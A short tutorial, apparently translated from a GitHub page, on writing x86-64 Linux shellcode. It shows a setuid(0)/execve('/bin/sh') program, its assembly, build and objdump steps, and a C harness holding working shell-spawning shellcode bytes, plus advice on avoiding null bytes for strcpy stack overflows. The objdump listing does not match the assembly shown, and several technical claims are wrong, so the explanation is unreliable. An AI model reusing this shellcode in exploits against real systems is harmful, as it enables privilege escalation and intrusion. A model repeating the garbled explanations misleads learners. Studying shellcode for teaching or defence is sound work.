 # shellcode
Shellcode is a set of instructions opcode that can be run by the program because shellcode operates directly on registers and functions, so opcode must be hex.


Since it's an attack, shellcode's main purpose is to call system functions, and there are two ways to do that under x86 in Linux.


The first is to break int 0x80 into the kernel state by calling directly to achieve the purpose of the call.


The second is by calling libc for syscall(64 bits) and sysenter(32 bits)


Syscall is currently recommended in 64-bit Linux, as opcode is a 16-bit set of instructions that can be compiled to execute code by first coming out of assembly code, and finally looking at opcode.

shell.c
```
#include <stdio.h>
int main(){
setuid(0);
execve("/bin/sh",NULL,NULL);
}
```
The corresponding assembly code is as follows

```
global _start
 
_start:
 
xor rdi,rdi
xor rax,rax
mov al,0x69
syscall
 
xor rdx, rdx
mov rbx, 0x68732f6e69622fff
shr rbx, 0x8
push rbx
mov rdi, rsp
xor rax, rax
push rax
push rdi
mov rsi, rsp
mov al, 0x3b
syscall
```
This is not a result of disassembly of shell.c

This code is not shellcode that can be executed, but we can get the opcode we need by compiling it into executable files
```
nasm -f elf64 shell.asm   
ld -o shell shell.o
objdump -d shell
```
Note: elf64 is used under 64 bits and elf32 is used under 32 bits


Using objdump results as follows:
```
shell:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	6a 3b                	pushq  $0x3b
  400082:	58                   	pop    %rax
  400083:	99                   	cltd   
  400084:	52                   	push   %rdx
  400085:	48 bb 2f 2f 62 69 6e 	movabs $0x68732f6e69622f2f,%rbx
  40008c:	2f 73 68 
  40008f:	53                   	push   %rbx
  400090:	54                   	push   %rsp
  400091:	5f                   	pop    %rdi
  400092:	52                   	push   %rdx
  400093:	57                   	push   %rdi
  400094:	54                   	push   %rsp
  400095:	5e                   	pop    %rsi
  400096:	0f 05                	syscall 
```
```
shellcode.c
#include <stdio.h>
#include <string.h>
char *code = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05";
int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}
```

Not all executable shellcode can be used to attack execution. First, functions may not be called in the current environment, and second, and most importantly, opcode does not allow /x0. Why? Because we take advantage of the vulnerability of some dangerous functions when manufacturing stack overflow, such as strcpy, when these functions encounter /x0 as terminators when called, then opcode cannot be copied completely.

